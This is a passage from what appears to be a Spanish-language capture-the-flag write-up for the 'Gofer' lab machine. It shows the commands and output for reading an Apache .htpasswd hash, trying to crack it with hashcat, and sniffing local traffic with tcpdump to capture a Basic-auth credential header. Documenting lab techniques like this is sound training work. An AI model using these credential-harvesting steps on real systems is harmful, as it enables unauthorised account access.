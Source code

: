 Vemos un hash correspondiente al usuario `tbuckley`
```shell
(remote) jhudson@gofer.htb:/etc/apache2/sites-enabled$ cat /etc/apache2/.htpasswd
tbuckley:$apr1$YcZb9OIz$fRzQMx20VskXgmH65jjLh/
```

Después de un rato intentando romper el hash no lo conseguí.
```shell
.\hashcat.exe -a 0 -m 1600 .\hash.txt .\rockyou.txt
```

Me di cuenta de que la máquina tenía la herramienta `tcpdump` instalada, y me dio por analizar si existía tráfico que podíamos capturar a través de cualquier interfaz de red de la máquina.

```shell
tcpdump -i any
....
tcpdump -i any
tcpdump: data link type LINUX_SLL2
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on any, link-type LINUX_SLL2 (Linux cooked v2), snapshot length 262144 bytes
14:05:10.923452 eth0  In  IP 10.10.14.133.https > 10.129.236.125.43690: Flags [.], ack 851516718, win 814, options [nop,nop,TS val 1107706382 ecr 3004325324], length 0
14:05:10.923476 eth0  Out IP 10.129.236.125.43690 > 10.10.14.133.https: Flags [P.], seq 1:200, ack 0, win 501, options [nop,nop,TS val 3004325360 ecr 1107706382], length 199
14:05:10.959254 eth0  In  IP 10.10.14.133.https > 10.129.236.125.43690: Flags [.], ack 200, win 835, options [nop,nop,TS val 1107706417 ecr 3004325360], length 0
```
Y vemos que hay tráfico.
Si se hiciera un solicitud HTTP podríamos capturarla y analizarla, así que primero vamos a confirmar si se hace alguna solicitud HTTP.

Para ello utilizamos el parámetro -A y filtramos por paquetes TCP y cuyo destinatario/origen sea el puerto 80 (HTTP).

```shell
tcpdump -i any -A 'tcp port 80'
...
14:08:01.496889 lo    In  IP localhost.49924 > localhost.http: Flags [S], seq 1942583195, win 65495, options [mss 65495,sackOK,TS val 384437704 ecr 0,nop,wscale 7], length 0
E..<..@.@..............Ps.w..........0.........
............
14:08:01.496900 lo    In  IP localhost.http > localhost.49924: Flags [S.], seq 3474896210, ack 1942583196, win 65483, options [mss 65495,sackOK,TS val 384437704 ecr 384437704,nop,wscale 7], length 0
E..<..@.@.<..........P.....Rs.w......0.........
............
14:08:01.496908 lo    In  IP localhost.49924 > localhost.http: Flags [.], ack 1, win 512, options [nop,nop,TS val 384437704 ecr 384437704], length 0
E..4..@.@..............Ps.w....S.....(.....
.......
14:08:01.496945 lo    In  IP localhost.49924 > localhost.http: Flags [P.], seq 1:164, ack 1, win 512, options [nop,nop,TS val 384437704 ecr 384437704], length 163: HTTP: GET /?url=http://gofer.htb HTTP/1.1
E.....@.@..n...........Ps.w....S...........
........GET /?url=http://gofer.htb HTTP/1.1
Host: proxy.gofer.htb
Authorization: Basic dGJ1Y2tsZXk6b29QNGRpZXRpZTNvX2hxdWFldGk=
User-Agent: curl/7.74.0
Accept: */*


14:08:01.496958 lo    In  IP localhost.http > localhost.49924: Flags [.], ack 164, win 511, options [nop,nop,TS val 384437704 ecr 384437704], length 0
E..4..@.@.U..........P.....Ss.x?.....(.....
.......
14:08:01.498364 lo    In  IP localhost.49932 > localhost.http: Flags [S], seq 546175604, win 65495, options [mss 65495,sackOK,TS val 384437706 ecr 0,nop,wscale 7], length 0
```